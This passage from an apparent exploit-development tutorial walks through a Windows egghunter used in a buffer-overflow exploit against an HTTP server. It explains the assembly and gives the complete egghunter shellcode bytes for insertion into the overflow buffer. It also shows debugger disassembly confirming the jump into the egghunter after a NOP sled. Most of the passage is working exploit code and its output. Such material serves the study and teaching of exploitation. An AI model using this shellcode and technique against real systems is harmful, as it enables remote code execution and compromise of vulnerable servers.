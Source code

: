 ```c
 # the second part
 " scasd ;"  
 # No match, we found just a location  
 # with half an egg
 " jnz loop_inc_one ;"  
" matched: "  
 # The edi register points to the first  
 # byte of our buffer, we can jump to it
 " jmp edi ;"  
```

We load the "egg" we want to search into the EAX register.
We mov the pointer of the memory we are scanning to EDI.
We use the `scasd` operation to compare EAX (the egg) with the dword at EDI (this means the dword at the start of memory region). Such operation will automatically increment EDI by a DWORD, displacing it as we want. In case that there is no match, we increment the memory counter by one **inside such memory region.**
In case that there is match, the match is only for the first dword, the first half of the egg, and we perform the `scasd` operation again to check for the other half egg. In case that both `scasd` operations are successful, we won't increment the counters inside the memory region but we will reach to the `matched` tag, which is a `jmp` edi (EDI at this point will store the location where the egg was found).

Interesting note about this egghunter: The original code from Matt Miller used the NtDisplayString1 system call, exploiting the very same concept. However, Miller realized that the use of the NtAccessCheckAndAuditAlarm system call was actually improving the portability of the egghunter. This is due to the fact that the NtAccessCheckAndAuditAlarm system call number (0x02) didn’t change across different operating systems versions, compared to the one for NtDisplayString, which changed between Windows versions.

Once we understood our egghunter, let's use Keystone to obtain the opcodes:
```python
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7")
```

We must replace these values for the "A" buffer after the HTTP method (remember that we modified the HTTP method to a routine to do a short jump to our "A" buffer. Now, we want to jump to the egghunter and find our other buffer).

Let's put a breakpoint on the POP, RET and analyze if everything works until the egghunter (and confirm if the egghunter code is not mangled):
```c
0472ea8d 90              nop
0472ea8e 90              nop
0472ea8f 90              nop
0472ea90 90              nop
0472ea91 90              nop
0472ea92 90              nop
0472ea93 90              nop
0472ea94 90              nop
0472ea95 6681caff0f      or      dx,0FFFh
0472ea9a 42              inc     edx
0472ea9b 52              push    edx
0472ea9c 6a02            push    2
0472ea9e 58              pop     eax
0472ea9f cd2e            int     2Eh
0472eaa1 3c05            cmp     al,5
0472eaa3 5a              pop     edx
0472eaa4 74ef            je      0472ea95
0472eaa6 b877303074      mov     eax,74303077h
0472eaab 89d7            mov     edi,edx
0472eaad af              scas    dword ptr es:[edi]
0472eaae 75ea            jne     0472ea9a
0472eab0 af              scas    dword ptr es:[edi]
0472eab1 75e7            jne     0472ea9a
```